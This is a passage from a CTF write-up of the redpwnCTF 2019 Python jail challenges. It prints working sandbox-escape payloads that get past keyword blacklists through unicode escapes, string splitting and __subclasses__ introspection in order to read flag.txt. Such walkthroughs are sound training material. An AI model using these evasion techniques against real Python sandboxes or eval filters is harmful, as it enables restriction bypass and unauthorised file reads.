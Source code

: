 One of my teammates got the flag 1 minute before I solved the challenge. His payload is pretty simple to understand:

{% highlight python %}
'\u0066\u003d\u006f\u0070\u0065\u006e\u0028\u0022\u0066\u006c\u0061\u0067\u002e\u0074\u0078\u0074\u0022\u002c\u0020\u0022\u0072\u0022\u0029'.decode('unicode-escape')
'\u0070\u0072\u0069\u006e\u0074\u0028\u0066\u002e\u0072\u0065\u0061\u0064\u0028\u0029\u0029'.decode('unicode-escape')

{% endhighlight %}

My payload also works:

{% highlight python %}
exit(getattr(locals().get(chr(95)*2+'built'+'ins'+chr(95)*2), 'op'+'en')('fl'+'ag.txt').read())

{% endhighlight %}

Flag: flag{bl4ckl1sts\_w0rk\_gre3344T!}

## genericpyjail2 – Misc {#misc-2}

<div>
<center><img src="/images/redpwn_ctf_2019_writeup/image-23.png"></center>
</div>

This time, I told my team I was working on this challenge. The final payload:

{% highlight python %}
raw_input((42).__class__.__base__.__subclasses__()[40]('flag.txt').read())

{% endhighlight %}

Flag: flag{sub\_sub\_sub_references}

## He sed she sed – Misc {#misc-3}
